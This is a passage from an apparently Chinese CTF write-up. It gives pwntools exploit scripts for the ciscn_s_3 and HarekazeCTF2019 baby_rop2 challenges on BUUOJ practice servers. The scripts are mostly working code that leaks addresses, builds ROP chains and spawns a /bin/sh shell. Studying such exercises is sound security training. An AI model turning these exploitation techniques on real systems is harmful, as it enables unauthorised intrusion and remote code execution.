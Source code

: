 ```python
from pwn import *
io = remote('node3.buuoj.cn',26613)
#io = process("./ciscn_s_3")
vulun_addr = 0x4004ED
mov_rax = 0x4004E2
pop_rbx_rbp_r12= 0x40059a
mov_call = 0x400580
sys_call = 0x400517
pop_rdi = 0x04005a3

payload = b"/bin/sh\x00"*2 + p64(vulun_addr)
io.send(payload)
io.recv(0x20)

bin_sh_add = u64(io.recv(8))-0x118
payload = b"/bin/sh\x00"*2 + p64(pop_rbx_rbp_r12)+p64(0)*2+ p64(bin_sh_add+0x50) + p64(0)*3

payload +=  p64(mov_call)+p64(mov_rax) +p64(pop_rdi)+ p64(bin_sh_add) + p64(sys_call)

io.sendline(payload)

io.interactive()
```

## 0x19.[HarekazeCTF2019]baby_rop2

printf泄露地址，ROP构造system /bin/sh。

```python
from pwn import *
from LibcSearcher import *
context(log_level='DEBUG')
#io = process("./babyrop2")
io = remote("node3.buuoj.cn",26898)
elf = ELF("./babyrop2")
libc = ELF("libc.so.6")
printf_plt = elf.plt['printf']
read_got = elf.got['read']
main = elf.sym['main']
fmt_str = 0x00400770
pop_rdi_ret = 0x0400733
pop_rsi_r15_ret = 0x400731
io.recv()
payload = 'a'*0x28 + p64(pop_rdi_ret)+ p64(fmt_str) +p64(pop_rsi_r15_ret) 
payload +=  p64(read_got)+p64(0) + p64(printf_plt)+ p64(main) 
io.sendline(payload)
io.recvuntil("again, ")
io.recvuntil("again, ")
read_add  = u64(io.recv(6).ljust(8,'\x00'))
print hex(read_add ) 
#libc = LibcSearcher('read',read_add)
base = read_add - libc.sym['read']
system_add = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()
io.recv()
payload = 'a'*0x28 +p64(pop_rdi_ret)+ p64(bin_sh) + p64(system_add)+p64(main)
io.sendline(payload)
io.interactive()
```
